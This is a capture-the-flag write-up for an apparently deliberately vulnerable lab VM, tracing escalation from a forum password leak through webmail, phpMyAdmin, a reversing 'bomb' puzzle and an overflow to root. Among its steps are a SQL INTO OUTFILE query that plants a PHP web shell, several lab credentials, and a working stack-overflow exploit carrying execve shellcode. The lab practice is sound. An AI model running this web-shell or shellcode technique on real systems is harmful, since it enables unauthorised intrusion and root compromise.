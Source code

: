 # Laurie entrypoint starting from /forum

Since we have access to /forum we can start gathering info
Some user are:
- admin
- lmezard
- zaz
- thor
- wandre
- qudevide

In a post we find a login and a password that was misstyped by lmezard
The password is `!q\]Ej?*5K5cy*AJ`

With this we can connect to the forum as lmezard, and this let us this her email on her profile
lmezard email is `laurie@borntosec.net`
Her password is the same than her forum password
Now we can connect as laurie on /webmail

She has 2 mail, one containing db root access we can use on /phpmyadmin
`user: root
 pass: Fg'kKXBj87E:aJ$`
Interesting to note that the sender email is `qudevide@mail.borntosec.net`
and laurie sent the same email to `ft_root@mail.borntosec.net`

Now we have access to the database which gives us some software additional info:
- Server: Localhost via UNIX socket
- Server version: 5.5.44-0ubuntu0.12.04.1
- Protocol version: 10
- User: root@localhost
- MySQL charset: UTF-8 Unicode (utf8)

## Reverse shell
From native SQL QUERY we can create file
The root dir of mysql on the system seems to be /var/lib/mysql/
Except here it looks like we cant create a file anywhere on the system
After a lot of tries everywhere, we discovered we can write inside /forum/templates_c/
To do the reverse shell we can do it in php with the shell_exec command

SELECT '<form method="get"><label><input type="text" name="cmd" value=""></label><button>Exec</button></form><?php if(isset($_GET["cmd"])){ $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; } ?>' INTO OUTFILE "/var/www/forum/templates_c/sh.php"

Then we can execute command logged in as www-var, wich is the apache2 users
Looking around the system, we find a password file in /home/LOOKATME/password
The credentials inside are : `lmezard:G!@M6f4Eatau{sF"`

They are ftp credentials, when connecting to the ftp server there is pcap file,
We have to extract the archive with tar and sort the file inside
We can automate them in a script and recompile the C file or just
`grep -R getme ft_fun -A 3`
`grep -R return ft_fun -A 3` to sort them manually, there is only 12 char we need

The result we get is : Iheartpwnage
When we sha256 it we get the ssh credentials for the laurie acc `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

Now we're logged in as laurie, we see a 'bomb' software that is a 32 binary
We can reverse it and solve the 6 steps then concatenate the result and we'll have the password for the thor acc

## The bomb
When looking at the reversed code we see some strange stuff like the secret phase that we can activate on stage 4 by adding 'austinpowers'
But it doesnt seem to do anything meaningful, likewise there is some intriguing function like send_mail but it doesnt look activated at all for now
Back to solving each regular step of the bomb ->

1/ Public speaking is very easy.
2/ 1 2 6 24 120 720
3/ 5 t 458
4/ 9
5/ opekma
6/ 4 2 6 3 1 5

Quick notes on step 3:
Solution is 5 t 458 but there can be other
Like 1b2149

Quick notes on step 4:
The rank for which fibonacci = 55
Its 9

Quick notes on step 5:
Solution is opekma but there can be other
Like opekmq

There is probably 2 way to do this challenge, either crack the logic of the mask which we didnt
Or send the whole alphabet to create a table to find the match to 'giants'
abcdef: srveaw
ghijkl: hobpnu
mnopqr: tfgisr
stuvwx: veawho
yz: bp

Quick notes on step 6:
read6 func so we understand the input has 6 char
The first while check that all input are number < 7
Second and third while sets up the linked list according to some rule we dont need to understand
Fourth while and last part of the code is just a simple step through the linked list
And it checks that each node value is lesser than the previous one
*if (current node < next node)*
   *explode*
*current node = next node*
The answer is `4 2 6 3 1 5`
We can verify this by just sending 123456 to check node value right before the last step in gdb

The final password for thor is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## Turtle

We have a series of instructions, when visualised with a python script (check script repo)
We get a stylised "SLASH"
When we md5 it we get the password for zaz user: `646da671ca01bb5d84dbb5fb2238dc8e`

## Overflow binary

In zaz repo there is a binary that is vulnerable to a stack overflow, through a call to strcpy
The binary doesnt have the nx protection and it isnt enabled via kernel neither
So we can inject a shellcode to exploit the vulnerable program
Quick file info checking with `ls -l/getfacl ./exploit_me` `file `./exploit_me`
It is a setuid binary from root, so if we manage to spawn a shell properly it will be a root process

The binary take one argument, that's where we place our shellcode. We try to find the address of
strcpy dest (approximately 0xbffff660) to replace the main return address. We add a nop slide before
the shellcode, so we have more odds to get to it:

./exploit_me $(python -c "print '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x60\xf6\xff\xbf' * 21")

`whoami/id` -> root/0
Hooray!!
